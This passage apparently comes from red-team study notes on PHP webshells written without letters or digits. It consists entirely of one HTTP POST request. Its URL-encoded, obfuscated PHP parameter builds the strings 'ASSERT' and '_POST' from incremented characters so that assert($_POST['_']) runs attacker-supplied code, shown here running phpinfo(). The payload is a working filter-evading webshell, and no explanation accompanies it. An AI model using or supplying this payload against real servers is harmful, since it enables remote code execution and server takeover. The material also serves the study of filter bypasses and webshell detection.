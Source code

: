 ```
POST /?shell=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%27%21%27%3D%3D%27%40%27%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D%27_%27%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___%28%24_%5B_%5D%29%3B

Content-Type: application/x-www-form-urlencoded

_=phpinfo();
```

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/无字母数字Webshell/5.png)
